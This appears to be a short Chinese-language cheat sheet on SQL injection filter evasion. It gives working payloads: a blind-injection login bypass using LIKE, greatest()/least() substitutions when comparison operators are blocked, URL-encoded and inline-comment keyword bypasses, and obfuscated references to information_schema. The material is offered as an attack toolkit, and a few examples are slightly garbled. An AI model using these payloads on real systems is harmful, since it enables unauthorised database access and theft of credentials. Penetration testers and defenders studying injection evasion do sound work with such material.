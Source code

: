 #### 过滤&,|,*,/,=等逻辑处理字符

```txt
可以用in,exists,position..in,>,<,!,<>,like等操作符绕过这个链接有详细介绍http://www.runoob.com/mysql/mysql-like-clause.html
这里举一个例子，比如要使用sql盲注的话但是过滤了substr,mid，asccii,ord等函数可以使用一下语句

admin' AND password LIKE "p%" --
```

#### 过滤<,>

```txt
方法：
使用greatest()绕过
说明：
greatest(n1,n2,n3,..........)返回 n1、n2、n3等一系列参数中的最大值
实例：
greatest(ascii(mid(user(),0,1)),150)
and greatest(ascii(substr(database(),0,1)),64)=64

方法：
least()
说明：
least函数会返回最小值
实例：
least(ascii(mid(user(),0,1)),150)
```

#### 关键字过滤

```txt
方法：
编码，内联注释，大小写绕过
实例：
%75%6e%69%6f%6e
/*!50000union*/
Union

from过滤：
使用from.
```

#### 表名等被过滤

```txt
以information_schema.tables为例
空格 information_schema . tables
着重号 information</em>schema.tables
特殊符 /!information——schema.tables/
别名 information_schema.(partitions),(statistics),(keycolumnusage),(table_constraints)

替换information_schema
把information_schema.tables改成
information_schema.statistics或
mysql.innodb_table_stats

测试:
select schema_name from information schema.tables;


```
